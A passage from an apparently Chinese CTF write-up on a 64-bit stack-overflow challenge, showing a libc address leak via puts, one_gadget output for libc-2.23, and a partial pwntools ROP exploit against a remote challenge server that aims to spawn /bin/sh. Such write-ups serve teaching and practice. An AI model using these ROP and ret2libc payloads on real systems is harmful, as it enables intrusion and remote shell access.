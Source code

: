 发现如图：

![image](https://xuanxuanblingbling.github.io/assets/pic/canary/puts.png)

因为八个字节的是小端存储的，所以除了高位的两个字节的0x00，没有打印出来，剩下的信息是完整。这里我挑的函数是read，最低的一个字节是0x50。当然如果你挑那个函数最低位正好是0x00，也许你应该换个函数试试。所以这里打印了6个字节的函数地址，一会处理的时候要小心，从8个字节的输出里搞出6个字节。然后就是找找有没有可以用的one_gadget啦：

```bash
➜  one_gadget libc-2.23.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

第一个好像不行，测试最后一个可以，完整的exp如下

### exp

```python
from pwn import *
context(arch='amd64',os='linux',log_level='error')

#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") 
libc = ELF("./libc-2.23.so")
myelf = ELF("./vul64")

io = remote("202.112.51.157",9002)
# io = process(myelf.path)
# gdb.attach(io,"b * main")

libc_read = libc.symbols['read']
plt_puts = myelf.plt['puts']
got_read = myelf.got['read']
elf_main = myelf.symbols['main']

rop_pop_rdi = 0x400933
rop_one_gadget = 0xf1147

payload = ""
payload += 'A'*51+'?'
payload += p64(0)
payload += p64(rop_pop_rdi)
payload += p64(got_read)
payload += p64(plt_puts)
payload += p64(elf_main)

io.recv()
io.sendline(payload)
io.recvline()

leak_read = u64(io.recv(8))&0x0000ffffffffffff
libc_base = leak_read - libc_read
one_gadget = libc_base + rop_one_gadget

```